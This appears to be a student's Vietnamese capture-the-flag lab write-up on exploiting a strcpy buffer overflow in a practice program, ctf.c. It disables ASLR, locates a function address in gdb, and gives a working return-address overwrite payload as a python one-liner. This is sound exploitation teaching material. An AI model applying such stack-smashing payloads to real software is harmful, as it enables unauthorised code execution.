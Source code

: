 # 2. Conduct attack on ctf.c

![alt text](images/image-24.png)

Hàm vuln() sử dụng strcpy(buf,s) để sao chép đầu vào s vào mảng buf[100]. Tuy nhiên, hàm strcpy không kiểm tra đầu vào, nên nếu chuỗi s nhập hơn 100 ký tự, nó sẽ ghi đè lên các byte lân cận, gây ra buffer overflow

![alt text](images/image-25.png)

mục tiêu là đè địa chỉ trả về của hàm vuln thành địa chỉ của hàm myfunc thì mới có thể chạy được hàm myfunc

Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên:

`sudo sysctl -w kernel.randomize_va_space=0`

![alt text](images/image-26.png)

biên dịch chương trình ctf.c

![alt text](images/image-27.png)

chạy gdb để xem địa chỉ của hàm myfunc:

![alt text](images/image-28.png)

=> Địa chỉ: 0x0804851b

=> chúng ta cần chèn 104 bytes + '\x1b\x85\x04\x08'

Stack sau khi đè lên giá trị trở về của hàm vuln():

![alt text](images/image-30.png)

Giờ để lấy được flag ta cần phải vượt qua các chướng ngại vật sau:

- flag1.txt chưa có => phải tạo ra 1 file flag1.txt bằng lệnh `touch flag1.txt`
  
  ![image](https://github.com/user-attachments/assets/59dfac7f-00b2-420a-8c50-831f97decfdb)

- 2 tham số p,q của hàm myfunc chưa có trong stack, vì thế ta đè tiếp biến ebp và giá trị trả về của hàm main thành các flag của p,q

![image](https://github.com/user-attachments/assets/cb0204df-7af7-43d1-b5a6-f666c5e45e98)

=> Câu lệnh cuối cùng:

`./ctf.out $(python -c "print('a' * 104 + '\x1b\x85\x04\x08' + 'a'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")`

- `'a' * 104`: chèn giá trị cho biến buf và biến ebp 
- `'\x1b\x85\x04\x08'` gán địa chỉ của hàm myfunc() đến địa chỉ trả về của hàm vuln()
- `'a'*4` gán giá trị cho biến s của hàm vuln
- `'\x11\x12\x08\x04'` gán địa chỉ p đến ebp của hàm main()
- `'\x62\x42\x64\x44'` gán địa chỉ q đến giá trị trở về của hàm main()

=> kết quả: 
  
![alt text](images/image-31.png)


